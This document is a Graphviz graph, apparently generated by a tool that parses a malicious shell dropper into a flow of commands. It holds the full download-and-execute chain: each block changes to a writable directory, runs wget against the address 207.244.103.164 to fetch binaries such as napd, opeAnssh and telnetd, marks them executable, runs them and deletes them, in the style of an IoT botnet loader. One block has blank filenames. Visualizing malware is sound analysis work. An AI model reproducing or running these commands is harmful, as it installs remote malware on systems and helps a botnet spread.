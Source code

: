 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://207.244.103.164/napd "];
10 -> 12 [label=";,"];
12 [label="chmod +x napd "];
12 -> 14 [label=";,"];
14 [label="./napd "];
14 -> 16 [label=";,"];
16 [label="rm -rf napd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://207.244.103.164/sGhd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sGhd "];
30 -> 32 [label=";,"];
32 [label="./sGhd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sGhd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://207.244.103.164/opeAnssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x opeAnssh "];
48 -> 50 [label=";,"];
50 [label="./opeAnssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf opeAnssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://207.244.103.164/baxsh "];
64 -> 66 [label=";,"];
66 [label="chmod +x baxsh "];
66 -> 68 [label=";,"];
68 [label="./baxsh "];
68 -> 70 [label=";,"];
70 [label="rm -rf baxsh "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://207.244.103.164/tfxatp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tfxatp "];
84 -> 86 [label=";,"];
86 [label="./tfxatp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tfxatp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://207.244.103.164/wgdfet "];
100 -> 102 [label=";,"];
102 [label="chmod +x wgdfet "];
102 -> 104 [label=";,"];
104 [label="./wgdfet "];
104 -> 106 [label=";,"];
106 [label="rm -rf wgdfet "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://207.244.103.164/crdfon "];
118 -> 120 [label=";,"];
120 [label="chmod +x crdfon "];
120 -> 122 [label=";,"];
122 [label="./crdfon "];
122 -> 124 [label=";,"];
124 [label="rm -rf crdfon "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://207.244.103.164/ftqqp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftqqp "];
138 -> 140 [label=";,"];
140 [label="./ftqqp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftqqp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://207.244.103.164/pfvcxtp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pfvcxtp "];
156 -> 158 [label=";,"];
158 [label="./pfvcxtp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pfvcxtp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://207.244.103.164/scch "];
172 -> 174 [label=";,"];
174 [label="chmod +x scch "];
174 -> 176 [label=";,"];
176 [label="./scch "];
176 -> 178 [label=";,"];
178 [label="rm -rf scch "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://207.244.103.164/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://207.244.103.164/apache420 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache420 "];
210 -> 212 [label=";,"];
212 [label="./apache420 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache420 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://207.244.103.164/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
